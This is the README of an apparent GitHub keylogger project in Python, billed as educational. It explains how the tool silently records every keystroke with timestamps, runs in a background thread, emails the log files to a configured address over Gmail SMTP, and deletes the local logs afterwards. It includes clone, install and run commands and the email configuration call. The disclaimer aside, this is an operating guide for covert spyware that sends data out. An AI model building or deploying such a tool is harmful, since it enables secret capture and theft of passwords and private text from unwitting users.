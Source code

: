 # 🖥️ Keylogger – Educational Python Project






  A simple yet powerful keylogger written in Python 🐍 for educational purposes. This tool demonstrates concepts in cybersecurity and Python programming by capturing keystrokes, logging 
  them to a file, and periodically emailing the logs to a specified address. The script runs silently in the background using threading.

# ✨ Features

  ⌨️ Keystroke Logging – Captures all keyboard events with timestamps 📅.

  🧵 Background Operation – Uses Python's threading for seamless background execution.

  📧 Automated Email Reports – Sends captured logs securely via Gmail’s SMTP.

  🗑️ Log Management – Deletes logs after sending to keep things clean and secure.

# ⚙️ How It Works

   Listener – Uses keyboard library to capture key presses.

   Logging – Saves keystrokes with timestamps in C:\Users\Public\logfile.txt.

   Scheduler – Runs in a background thread ⏱️.

   Emailing – Sends log files as email attachments at defined intervals.

   Cleanup – Deletes log file after successful email transmission.

   Persistence – Keeps running silently until manually stopped.

# 🚀 Getting Started

  📋 Prerequisites

  Python 3.x

  pip (Python package manager)

# 🛠️ Installation
```
# Clone the repository
   git clone https://github.com/lakshya-004/Keylogger.git  

# Navigate into the project folder
   cd Keylogger  

# Install dependencies
   pip install keyboard
```

# 📝 Configuration

   Before running the script, update your email settings inside Main.py:
```
send_email_with_attachment(
   sender_email="your_email@gmail.com",
   app_password="your_gmail_app_password",
   recipient_email="recipient_email@example.com",
   subject="Keylogger Log File",
   body="Attached is the keylogger log file.",
   file_path=log_file_path
)
```

  🔹 Use a Google App Password instead of your Gmail password (required for 2FA accounts).
  🔹 Change time.sleep(60) inside schedule_email() to adjust the email interval (in seconds).

# ▶️ Running the Script
```
python Main.py

```
  The script runs in the background silently. To stop it:

  Press Ctrl + C in the terminal, or

  End the process via Task Manager.

# ⚠️ Disclaimer

  This project is for educational purposes only 🏫.
  Misuse of this tool on systems without explicit permission is illegal and unethical.
  The author is not responsible for any misuse or consequences.
  Use responsibly and within the boundaries of the law ⚖️.
